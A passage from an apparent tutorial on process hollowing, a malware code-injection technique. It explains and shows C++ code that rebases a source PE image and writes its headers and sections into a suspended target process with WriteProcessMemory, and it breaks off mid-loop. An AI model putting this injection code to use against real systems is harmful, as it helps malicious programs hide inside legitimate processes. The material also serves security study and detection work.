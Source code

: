 ```cpp
}
```
 
## Copying The Source Image
Now that memory has been allocated for the new image it must be copied to the process memory.  For the hollowing to work, the image base stored within the optional header of the source image must be set to the destination image base address. However, before setting it the difference between the two base addresses must be calculated for use in rebasing. Once the optional header is fixed up, the image is copied to the process via WriteProcessMemory starting with its portable executable headers. Following that, the data of each section is copied. 

```cpp
DWORD dwDelta = (DWORD)pPEB->ImageBaseAddress -
      pSourceHeaders->OptionalHeader.ImageBase;
 
printf
(
      "Source image base: 0x%p\r\n"
      "Destination image base: 0x%p\r\n",
      pSourceHeaders->OptionalHeader.ImageBase,
      pPEB->ImageBaseAddress
);
 
printf("Relocation delta: 0x%p\r\n", dwDelta);
 
pSourceHeaders->OptionalHeader.ImageBase = (DWORD)pPEB->ImageBaseAddress;
 
printf("Writing headers\r\n");
 
if (!WriteProcessMemory
(
      pProcessInfo->hProcess,                        
      pPEB->ImageBaseAddress,
      pBuffer,
      pSourceHeaders->OptionalHeader.SizeOfHeaders,
      0
))
{
      printf("Error writing process memory\r\n");
 
      return;
}
 
for (DWORD x = 0; x < pSourceImage->NumberOfSections; x++)
{
      if (!pSourceImage->Sections[x].PointerToRawData)
            continue;
 
      PVOID pSectionDestination =
            (PVOID)((DWORD)pPEB->ImageBaseAddress +
                  pSourceImage->Sections[x].VirtualAddress);
 
      printf
      (
            "Writing %s section to 0x%p\r\n",
            pSourceImage->Sections[x].Name, pSectionDestination
      );
 
      if (!WriteProcessMemory
      (
            pProcessInfo->hProcess,            
            pSectionDestination,               
            &pBuffer[pSourceImage->Sections[x].PointerToRawData],
```
